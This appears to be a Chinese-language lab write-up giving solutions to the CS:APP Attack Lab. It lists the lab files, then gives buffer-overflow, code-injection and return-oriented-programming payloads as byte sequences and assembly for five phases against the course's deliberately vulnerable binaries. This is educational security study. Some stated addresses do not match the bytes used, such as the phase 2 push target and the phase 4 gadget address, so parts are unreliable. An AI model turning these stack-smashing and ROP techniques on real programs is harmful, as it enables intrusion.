 # Attack Lab
### lab地址： [CS:APP3e Student Site](http://csapp.cs.cmu.edu/3e/students.html)
## 实验文件组成
    README.txt: A file describing the contents of the directory  

    ctarget: An executable program vulnerable to code-injection attacks  

    rtarget: An executable program vulnerable to return-oriented-programming attacks  

    cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.  

    farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented
    programming attacks.

    hex2raw: A utility to generate attack strings.
## 常用指令
    cat answerk | ./hex2raw | ./ctarget -q（不加-q 不能运行）
    objdump -d xx.o > xx 反汇编指令
    gcc -c xx.i 将汇编语言转换为机器语言    

## answer1:
第一个任务只需要把栈填充40个地址然后覆盖原来的返回地址，通过汇编语言翻译为机器地址

    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    31 32 33 34 35 36 37 38 39 30
    c0 17 40 00 00 00 00 00  
## answer2:
第二个任务需要我们自己编写汇编代码，把cookie传入寄存器rdi中:  

    movq $0x59b997fa , %rdi
    pushq $0x004017c0
    retq  
然后把这个栈帧的返回地址改为栈顶  

    gcc -c answer2.s //之后生成answer2.o
    objdump -d answer2.o >> answer2.s //获得字节序列  

最终的字节序列为

    48 c7 c7 fa 97 b9 59
    68 ec 17 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
## answer3:
第三个任务需要把cookie存入到栈中，把地址传给rdi  

因为在这里后面的hexmatch 和strncmp会覆盖getbuf中的memory  
而观察test过程的栈空间是没有被利用的，所以我们可以覆盖调用函数的栈空间来存储注入代码字符串  
buf栈顶的位置在0x5561dc78 栈底0x5561dca0 所以跳过保存地址的8个字节  
我们存储字符串的位置就在0x5561dca8  
touch3()地址 $0x004018fa  
注入代码

    mov $0x5561dca8 , %rdi
    pushq   $0x004018fa
    retq
最终的字节序列：

    48 c7 c7 a8 dc 61 55 
    68 fa 18 40 00
    c3
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30
    78 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61
## answer4:
因为**栈随机化**，因此不可以通过栈地址来注入执行代码  
为了达到movq $0x59b997fa,%rdi  我们利用原来的代码碎片
首先填充40个空的字节，把原来的返回地址改为pop %rax代码地址  
我们查询到pop %rax 字节序列为58 90 
找到代码碎片地址 0x004019ab  
然后填充8个字节cookie ,再返回到代码碎片 movq %rax,%rdi ,对应地址为0x004889c7
![栈结构](https://github.com/JasonJ2021/CSAPP/blob/main/AttackLab/picture/answer4.jpg)  

最终的字节序列为

    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    30 30 30 30 30 30 30 30 30 30
    ab 19 40 00 00 00 00 00
    fa 97 b9 59 00 00 00 00
    c5 19 40 00 00 00 00 00
    ec 17 40 00 00 00 00 00

## answer5:
最后一个任务实现与phase_3差不多，栈结构如下：
![栈结构](https://github.com/JasonJ2021/CSAPP/blob/main/AttackLab/picture/answer5.jpg)  

最终的字节序列为

    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    51 51 51 51 51 51 51 51 51 51
    ad 1a 40 00 00 00 00 00
    d8 19 40 00 00 00 00 00
    a2 19 40 00 00 00 00 00
    fa 18 40 00 00 00 00 00
    31 31 31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31 31 31
    31 31 31 31 31 31 31 31 31 31
    31
    35 39 62 39 39 37 66 61 00